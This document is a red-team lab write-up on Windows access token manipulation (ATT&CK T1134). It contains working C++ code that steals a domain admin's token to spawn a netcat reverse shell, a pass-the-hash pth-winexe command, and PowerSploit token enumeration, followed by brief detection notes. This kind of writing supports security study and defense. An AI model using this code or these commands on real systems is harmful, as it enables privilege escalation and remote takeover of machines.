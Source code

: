 ```yaml
---
description: 'Defense Evasion, Privilege Escalation'
---
```


# T1134: Access Token Manipulation

## Execution

One of the techniques of token manipulations is token impersonation. This is when a token of an already existing access token present in one of the running processes on the local host, is retrieved and duplicated and then used for creating a new process.

The high level process is as follows:

| Step | Win32 API |
| :--- | :--- |
| Open a process which has the access token you want to steal. | `OpenProcess` |
| Get a handle to the access token of that process | `OpenProcesToken` |
| Make a duplicate of the access token present in that process | `DuplicateTokenEx` |
| Create a new process with the newly aquired access token | `CreateProcessWithTokenW` |

Below is the C++ code implementing the above process. Note the variable `PID_TO_IMPERSONATE` that has a value of `3060` This is a process ID that we want to impersonate/steal its token from, since it is running as a domain admin and makes for a good target:

![A victim cmd.exe process that is running under the context of DC admin offense\administrator](../.gitbook/assets/tokens-victim-3060.png)

Note te line 16 which specifies the executable that should be launched with an impersonted token, which in our case is a simple netcat reverse shell:

![](../.gitbook/assets/tokens-shell-c++.png)

And this is the code if you want to compile and try it yourself:

{% code-tabs %}
{% code-tabs-item title="tokens.cpp" %}
```cpp
#include "stdafx.h"
#include <windows.h>
#include <iostream>

int main(int argc, char * argv[]) {
	char a;
	HANDLE processHandle;
	HANDLE tokenHandle = NULL;
	HANDLE duplicateTokenHandle = NULL;
	STARTUPINFO startupInfo;
	PROCESS_INFORMATION processInformation;
	DWORD PID_TO_IMPERSONATE = 3060;
	wchar_t cmdline[] = L"C:\\shell.cmd";
	ZeroMemory(&startupInfo, sizeof(STARTUPINFO));
	ZeroMemory(&processInformation, sizeof(PROCESS_INFORMATION));
	startupInfo.cb = sizeof(STARTUPINFO);	

	processHandle = OpenProcess(PROCESS_ALL_ACCESS, true, PID_TO_IMPERSONATE);
	OpenProcessToken(processHandle, TOKEN_ALL_ACCESS, &tokenHandle);
	DuplicateTokenEx(tokenHandle, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &duplicateTokenHandle);			
	CreateProcessWithTokenW(duplicateTokenHandle, LOGON_WITH_PROFILE, NULL, cmdline, 0, NULL, NULL, &startupInfo, &processInformation);
	
	std::cin >> a;
    return 0;
}
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Launching the tokens.exe from the powershell console spawns a reverse shell that the we catch on the attacking system. Note how the `powershell.exe` - the parent process of `Tokens.exe` and `Tokens.exe` itself are running under `PC-Mantvydas\mantvydas`, but the newly spawned shell is running under `OFFENSE\Administrator` - this is because of the successful token impersonation:

![](../.gitbook/assets/token-shell-impersonated.png)

Other quick test - I spawned a cmd shell remotely from the attacking machine to the same victim machine via:

{% code-tabs %}
{% code-tabs-item title="attacker@local" %}
```text
pth-winexe //10.0.0.2 -U offense/administrator%pass cmd
```
{% endcode-tabs-item %}
{% endcode-tabs %}

which spawned a new process on the victim system with a PID of 4780:

![](../.gitbook/assets/tokens-winexe.png)

Enumerating all the access tokens with `Invoke-TokenManipulation -ShowAll | ft -Wrap -Property domain,username,tokentype,logontype,processid` from PowerSploit gives the below, note the available token highlighted - it is the cmd.exe from above screenshot and its logon type as expected is 3 \(network logon\):

![](../.gitbook/assets/tokens-all.png)

This token again can be stolen the same way, just by changing the PID to impersonate in our code:

![](../.gitbook/assets/tokens-new-pid.png)

and observing a new process being spawned witht the new token - note the cmd.exe has a PID 5188:

![](../.gitbook/assets/tokens-new-shell.png)

If we rerun the Invoke-TokenManipulation, we can see the new process is using the access token with logon type 3:

![](../.gitbook/assets/token-new-logon-3%20%281%29.png)

## Observations

In this particularly contrived example, since Tokens.exe was written to the disk on the victim system, we could have a quick look at its dissasembly and conclude it is attempting to manipulate access tokens - note that we can see the victim process PID and the CMDLINE arguments:

![](../.gitbook/assets/token-disasm.png)

As suggested by the above, you should think about API monitoring if you want to detect these manipulations, which is not natively easy. Additionally, events `4672` and `4674` may be helpful. Below shows the network logon of a `pth-winexe //10.0.0.2 -U offense/administrator%pass cmd` and then later on the netcat reverse shell originating from the same logon session:

![](../.gitbook/assets/token-logs.png)



{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1134\",\"type\":\"link\",\"title\":\"Access Token Manipulation - ATT&CK for Enterprise\",\"icon\":{\"type\":\"icon\",\"url\":\"https://attack.mitre.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://digital-forensics.sans.org/blog/2012/03/21/protecting-privileged-domain-accounts-access-tokens\",\"type\":\"link\",\"title\":\"SANS Digital Forensics and Incident Response Blog \| Protecting Privileged Domain Accounts:  Safeguarding Access Tokens \| SANS Institute\",\"description\":\"SANS Digital Forensics and Incident Response Blog blog pertaining to Protecting Privileged Domain Accounts:  Safeguarding Access Tokens\",\"icon\":{\"type\":\"icon\",\"url\":\"https://digital-forensics.sans.org/favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://clymb3r.wordpress.com/2013/11/03/powershell-and-token-impersonation/\",\"type\":\"link\",\"title\":\"PowerShell and Token Impersonation\",\"description\":\"This post will discuss bringing incognito-like functionality to PowerShell in the form of a new PowerShell script \(Invoke-TokenManipulation\), with some important differences. I’ll split this post u…\",\"icon\":{\"type\":\"icon\",\"url\":\"https://s1.wp.com/i/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://clymb3r.files.wordpress.com/2013/11/screen-shot-2013-11-03-at-10-07-42-pm.png?w=300\",\"width\":300,\"height\":187,\"aspectRatio\":0.6233333333333333}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446671\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"GetTokenInformation function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

{% embed data="{\"url\":\"https://docs.microsoft.com/en-us/windows/desktop/api/winbase/nf-winbase-createprocesswithtokenw\",\"type\":\"link\",\"title\":\"CreateProcessWithTokenW function\",\"description\":\"Creates a new process and its primary thread. The new process runs in the security context of the specified token. It can optionally load the user profile for the specified user.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://docs.microsoft.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://docs.microsoft.com/\_themes/docs.theme/master/en-us/\_themes/images/microsoft-header.png\",\"width\":128,\"height\":128,\"aspectRatio\":1}}" %}

{% embed data="{\"url\":\"https://msdn.microsoft.com/en-us/library/windows/desktop/aa446617\(v=vs.85\).aspx\",\"type\":\"link\",\"title\":\"DuplicateTokenEx function \(Windows\)\",\"icon\":{\"type\":\"icon\",\"url\":\"https://msdn.microsoft.com/Areas/Epx/Themes/Windows/Content/Winlogo\_favicon.ico\",\"aspectRatio\":0}}" %}

[https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf](https://www.blackhat.com/docs/eu-17/materials/eu-17-Atkinson-A-Process-Is-No-One-Hunting-For-Token-Manipulation.pdf)

